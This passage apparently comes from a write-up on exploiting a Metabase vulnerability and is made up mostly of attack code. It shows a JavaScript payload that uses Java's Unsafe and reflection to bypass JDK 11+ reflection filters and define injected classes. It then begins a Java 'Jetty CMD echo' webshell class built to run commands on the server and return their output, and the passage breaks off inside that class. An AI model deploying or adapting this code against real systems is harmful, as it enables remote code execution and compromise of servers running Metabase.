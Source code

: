 ```javascript
    var overrideField = java.lang.Class.forName("java.lang.reflect.AccessibleObject").getDeclaredField("override");
    var offset = unsafe.objectFieldOffset(overrideField);
    unsafe.putBoolean(accessibleObject, offset, true);
}
function defineClass(){
  var clz = null;
  var version = java.lang.System.getProperty("java.version");
  var unsafe = getUnsafe();
  var classLoader = new java.net.URLClassLoader(java.lang.reflect.Array.newInstance(java.lang.Class.forName("java.net.URL"), 0));
  try{
    if (version.split(".")[0] >= 11) {
      bypassReflectionFilter();
    defineClassMethod = java.lang.Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", java.lang.Class.forName("[B"),java.lang.Integer.TYPE, java.lang.Integer.TYPE);
    setAccessible(defineClassMethod);
    // 绕过 setAccessible 
    clz = defineClassMethod.invoke(classLoader, bytes, 0, bytes.length);
    }else{
      var protectionDomain = new java.security.ProtectionDomain(new java.security.CodeSource(null, java.lang.reflect.Array.newInstance(java.lang.Class.forName("java.security.cert.Certificate"), 0)), null, classLoader, []);
      clz = unsafe.defineClass(null, bytes, 0, bytes.length, classLoader, protectionDomain);
    }
  }catch(error){
    error.printStackTrace();
  }finally{
    return clz;
  }
}
defineClass();
```

### Loophole echo

When the vulnerability is echoed, we can utilize `DefineClass` to execute the exploit for the vulnerability. However, the latest version of Metabase uses Jetty11, so adaptation for echoing needs to be done for this version. The core code is as follows:

```java
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

/**
 * Jetty CMD 回显马
 * @author R4v3zn woo0nise@gmail.com
 * @version 1.0.1
 */
public class JE2 {

    public JE2(){
        try{
            invoke();
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void invoke()throws Exception{
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
```